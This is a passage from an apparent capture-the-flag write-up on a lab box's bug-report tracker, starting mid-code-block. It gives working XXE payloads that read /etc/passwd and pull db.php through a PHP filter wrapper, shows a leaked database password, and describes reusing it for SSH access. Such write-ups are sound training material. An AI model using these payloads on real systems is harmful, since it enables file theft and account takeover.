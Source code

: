 ```javascript
		console.log('Error:', error);
	}
}
```
The `/log_submit.php` initiate the above code. The code makes a post requests to `tracker_diRbPr00f314.php` with the user input formated in XML form encoded in base64. As the code, directly take our input and forms a XML document to send to server, this might be vulnerable to XXE Injection.

Navgating to `/log_submit.php`, submitting the values, we see our data was being sent in base64 encoded form decoding which leads to XML formatted data. First thing to try, XXE Injection. Using a simple payload to grab the passwd file and encoding it with base64, we were able to get the file. 
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [ <!ENTITY test SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>&test;</title>
		<cwe>1</cwe>
		<cvss>1</cvss>
		<reward>1</reward>
		</bugreport>
```


![image](https://user-images.githubusercontent.com/94787830/143480890-be68bb2e-b047-44ee-b894-82328869910c.png)

We can here try to get any ssh private keys, but we were not able to in this case. From our directory bruteforcing, we found `db.php`, we could try to exfill that file. But to exfill PHP codes, we need to use PHP filters.
Using a payload from [payload-all-the-things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe), we can change it accordingly for our box
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [ <!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=/var/www/html/db.php'>]>
		<bugreport>
		<title>&test;</title>
		<cwe>1</cwe>
		<cvss>1</cvss>
		<reward>1</reward>
		</bugreport>
```
Encode and send the request, and we got the output. Decoding the output, we have
```php
// db.php file

<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
We have a potential password and from passwd file, we can get the usernames.
```bash
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```
We can try ssh into the box with the creds, and indeed it worked.
